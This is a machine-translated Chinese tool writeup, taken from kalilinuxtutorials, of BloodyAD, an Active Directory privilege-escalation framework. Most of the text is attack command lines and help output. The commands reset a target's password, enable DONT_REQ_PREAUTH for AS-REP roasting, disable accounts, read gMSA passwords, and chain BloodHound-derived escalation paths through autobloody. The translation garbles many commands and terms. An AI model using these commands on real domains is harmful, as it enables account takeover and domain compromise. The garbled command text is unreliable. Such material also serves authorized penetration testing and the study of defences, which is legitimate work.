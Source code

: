 # BloodyAD:一个活动目录权限提升框架

> 原文：<https://kalilinuxtutorials.com/bloodyad/>

[![](img/c0c43a79c264e165b095424069d551db.png)](https://blogger.googleusercontent.com/img/a/AVvXsEiJfycVzNwuwf9WYAKW1by0FSHWo8_xmqCxm5ZLX8UAYamgiQB_isBFpBpc-L9HIzEf-qY_RDqBH7cvkPs1GpaG0CPKcgGdnjVwCBIs9u9QaBxmKd1S0ZI0haQTZpLl7LR1b0IwHygq95hjuzq67OB0wY0rg4mVt8SZeRtwXKme7TF89TF6uEwz_suz=s765)

**BloodyAD** 是一个活动目录权限提升框架，可以使用`**bloodyAD.py**`手动使用，也可以结合`**pathgen.py**`和`**autobloody.py**`自动使用。

此框架支持 NTLM(使用密码或 NTLM 哈希)和 Kerberos 身份验证，并绑定到域控制器的 LDAP/LDAPS/SAMR 服务以获得 AD 权限。

它被设计成透明地与 SOCKS 代理一起使用。

**血腥镇压**

**描述**

此工具可以对域控制器执行特定的 LDAP/SAMR 调用，以便执行 AD 特权。

### 要求

以下是必需的:

*   python3
*   DSinternals
*   冲击
*   Ldap3 为您的虚拟环境使用 requirements . txt:`**pip3 install -r requirements.txt**`

### 用法

简单用法:

**python blood YAD . py–host 172 . 16 . 1 . 15-d MYDOM-u my user-p:70016778 CB 0524 c 799 AC 25 b 439 BD 6a 31 change password my target ' password 123！'**

所有可用功能的列表

**【blood YAD】$ python blood YAD . py-h
用法:blood YAD . py[-h][-d DOMAIN][-u USERNAME][-k][-s { LDAP，ldaps，RPC }][–HOST HOST]
{ getobject attributes，setAttribute，addUser，addComputer，delObject，changePassword，addObjectToGroup，
addForeignObjectToGroup，delObjectFromGroup，getChildObjects，setShadowCredentials，setGenericAll –Kerberos
-s { ldap，ldaps，rpc}，–scheme { LDAP，ldaps，rpc}
在 TLS 上使用 LDAP(默认为 LDAP)
–DC 的主机主机主机名或 IP(例如:my.dc.local 或 172.16.1.3)
命令:
{getObjectAttributes，setAttribute，addUser，addComputer，delObject，changePassword，addObjectToGroup，
addforeignobj**

使用特定功能的帮助文本:

**【blood YAD】$ python blood YAD . py–host 172 . 16 . 1 . 15-d MYDOM-u my user-p:70016778 CB 0524 c 799 AC 25 b 439 BD 6a 31 Change password-h
用法:
使用 LDAPS 或 RPC 在不知道旧密码的情况下更改目标密码
Args:
identity:目标的 sAMAccountName、DN、GUID 或 SID(必须对其有写权限)【T5**

### 它是如何工作的

bloodyAD 主要使用 LDAP 协议与 DC 通信，以获取信息或添加/修改/删除 AD 对象。不能使用 LDAP 更新密码，它必须是 LDAPS 或 SAMR 的安全连接。默认情况下，DC 没有激活 LDAPS，因为它必须进行配置(使用证书),因此在这些情况下使用 SAMR。

### 有用的命令

**获取群成员
python bloody ad . py-u John . doe-d bloody-p password 512！–host 192 . 168 . 10 . 2 getObjectAttributes Users 成员
获取最小密码长度策略
python bloody ad . py-u John . doe-d bloody-p password 512！–host 192 . 168 . 10 . 2 getobject attributes ' DC = bloody，DC=local' minPwdLength
获取 AD 功能级别
python bloody AD . py-u Administrator-d bloody-p password 512！–host 192 . 168 . 10 . 2 getobject attributes ' DC =血腥，DC =本地' msDS-Behavior-Version
获取该域的所有用户
python bloody ad . py-u John . doe-d bloody-p password 512！–host 192 . 168 . 10 . 2 Get child objects ' DC =血腥，DC =本地'用户
获取该域的所有计算机
python bloody ad . py-u John . doe-d bloody-p password 512！–host 192 . 168 . 10 . 2 Get child objects ' DC =血腥，DC =本地'计算机
获取该域的所有容器
python bloody ad . py-u John . doe-d bloody-p password 512！–host 192 . 168 . 10 . 2 get child objects ' DC =血腥，DC =本地'容器
启用 DONT_REQ_PREAUTH 进行 asre proast
python blood YAD . py-u Administrator-d bloody-p password 512！–host 192 . 168 . 10 . 2 setuseracountcontrol John . doe 0x 400000
Disable account Disable
python bloody ad . py-u Administrator-d bloody-p password 512！–host 192 . 168 . 10 . 2 setUserAccountControl John . doe 0x 0002 False
获取 user account control 标志
python bloody ad . py-u Administrator-d bloody-p password 512！–主机 192 . 168 . 10 . 2 getobject attributes John . doe user account control
读取 GMSA 帐户密码
python bloody ad . py-u John . doe-d bloody-p password 512–主机 192 . 168 . 10 . 2-s ldaps getobject attributes gmsaAccount $ msDS-Man**aged password

# 自体血液

### 描述

该工具自动执行两个 AD 对象之间的 AD 特权，即源(我们拥有的对象)和目标(我们想要的对象)之间的特权，如果存在特权路径的话。自动化分为两部分:

*   `**pathgen.py**`使用 bloodhound 数据和 neo4j 查询找到 privesc 的最佳路径。
*   `**autobloody.py**`执行用`**pathgen.py**`找到的路径

### 要求

以下是必需的:

*   python3
*   DSinternals
*   冲击
*   Ldap3
*   大猎犬
*   Neo4j python 驱动程序
*   Neo4j 与 GDS 图书馆

### 如何使用

首先必须将数据导入 BloodHound(例如使用 SharpHound 或 BloodHound.py ),并且 Neo4j 必须正在运行。

简单用法:

**pathgen . py-DP neo4j pass-ds ' OWNED _ USER @ ATTACK。LOCAL '-dt ' TARGET _ USER @攻击。LOCAL '&&auto bloody . py-d ATTACK-u ' owned _ user '-p ' owned _ user _ pass '–host 172 . 16 . 1 . 15**

`**pathgen.py**`的完整帮助:

**$ python pathgen.py -h
用法:pathgen . py[-h][–DBURI DBURI][-du DBUSER]-DP db password-ds db source-dt db target[-f file path]
Active Directory 权限提升框架
可选参数:
-h，–help 显示此帮助消息并退出
–DBURI DBURI 主机 neo4j 正在其上运行。默认值:localhost。
-du DBUSER，–DBUSER DBUSER
Neo4j 要使用的用户名
-dp DBPASSWORD，–db password db password
Neo4j 要使用的密码
-ds DBSOURCE，–db source db source
源节点的区分大小写标签(bloodhound 中的 name 属性)
-dt DBTARGET，–db target db target
目标节点的区分大小写标签(bloodhound 中的 name 属性)
-f FILEPATH，–File path File path【T11**

### 它是如何工作的

首先`**pathgen.py**`使用 Neo4j 的 GDS 库中实现的 Dijkstra 算法生成一个 privesc 路径。Dijkstra 算法允许解决加权图上的最短路径问题。默认情况下，bloodhound 创建的边没有权重，只有类型(例如 MemberOf，WriteOwner)。然后，根据边的类型和到达的节点的类型(例如，用户、组、域)，将权重添加到每个边。

一旦路径生成并存储为 json 文件，`**autobloody.py**`将连接到 DC，执行路径并清除可逆的内容(除了密码更改)。

[**Download**](https://github.com/CravateRouge/bloodyAD)